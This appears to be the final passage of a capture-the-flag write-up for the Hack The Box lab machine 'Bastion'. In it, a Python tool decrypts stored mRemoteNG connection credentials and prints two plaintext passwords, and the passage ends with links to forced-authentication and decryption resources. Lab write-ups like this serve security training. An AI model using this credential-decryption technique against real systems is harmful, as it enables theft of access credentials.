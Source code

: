 ![](/assets/img/htb/machines/windows/easy/bastion/confConfs.png)

Here we go!

```bash
$ python3 mremoteng_decrypt.py -s yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB
Password: bureaulampje
$ python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```

![](/assets/img/htb/machines/windows/easy/bastion/admin.png)

___

## Useful links

- [Execution via .SCF](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-scf)
- [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt)


